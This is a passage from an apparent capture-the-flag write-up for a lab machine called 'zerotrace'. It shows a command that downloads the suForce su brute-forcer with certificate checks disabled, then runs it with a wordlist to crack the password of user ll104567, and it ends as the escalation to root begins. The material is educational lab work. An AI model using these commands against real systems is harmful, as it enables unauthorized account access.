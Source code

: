 ```bash
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/suForce" && chmod +x suForce 
```

and we use it with the created dictionary to try to obtain the password of the user ll104567.

```bash
./suForce -u ll104567 -w ./diccionario.txt
```

![suForce](../../assets/images/zerotrace/suforce.png)

Bingo! We obtain the password for the user ll104567.

## Privilege escalation from ll104567 to root

Now that we have access as the user ll104567, we can proceed to read the user flag (user.txt) that we previously did not have permission to access.

Using `su` from the user shelldredd or accessing via `SSH` with the obtained password, we log in as the user `ll104567`.

```bash
su ll104567
```

![su](../../assets/images/zerotrace/su.png)

The user `ll104567` has permissions to execute as `root` using sudo the executable `/home/ll104567/guessme` which we previously analyzed and was vulnerable.
